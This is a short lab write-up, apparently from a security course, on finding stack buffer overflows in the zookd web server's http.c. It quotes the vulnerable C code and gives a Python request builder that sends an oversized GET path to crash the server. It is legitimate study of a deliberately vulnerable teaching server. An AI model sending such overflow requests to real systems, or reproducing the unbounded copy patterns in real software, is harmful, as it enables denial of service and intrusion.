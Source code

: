 took me long time to figure out, what I need to do is to find buffer overflow in `http.c` file...I thought I might die in `gdb -p $(pgrep zookd-exstack)`...

PART1: Finding buffer overflows

①

from `zookd.c` file
```
static void process_client(int fd)
{
    char reqpath[2048];
    ...
    if ((errmsg = http_request_line(fd, reqpath, env, &env_len)))
    ...
}
```

in `http.c` function `http_request_line`
```
const char *http_request_line(int fd, char *reqpath, char *env, size_t *env_len)
{
    static char buf[8192]; 
    ...
    sp1 = strchr(buf, ' ');
    ...
    /* decode URL escape sequences in the requested path into reqpath */
    url_decode(reqpath, sp1);
}

```
So, we can set the input reqpath longer than 2048, this will crash the server

```
def build_exploit(shellcode):
    reqpath = "/" + "a"*3000
    req = "GET " + reqpath + "HTTP/1.0\r\n" + "\r\n"
    return req
```

An interesting I found in the same time is, if I set the `reqpath = "/" + "a" * 1024` this seems normal nothing bad return even no path error return

②
still in function `http_request_line`
```
const char *http_request_line(int fd, char *reqpath, char *env, size_t *env_len)
{
    ...
    envp += sprintf(envp, "REQUEST_URI=%s", reqpath) + 1;
}
```

in `zookfs.c`[line:47]
```
http_serve(sockfd, getenv("REQUEST_URI"));
```

back to `http.c`
```
void http_serve(int fd, const char *name)
{
    char pn[1024];
    ...
    strcat(pn, name);
    ...
    handler(fd, pn);
}
```

so this handler can be `http_serve_executable` or `http_serve_directory` or `http_serve_file`

and hmm set reqpath to something over length 1024 seems some bad things will happend, but I still not get this, as nothing happened...

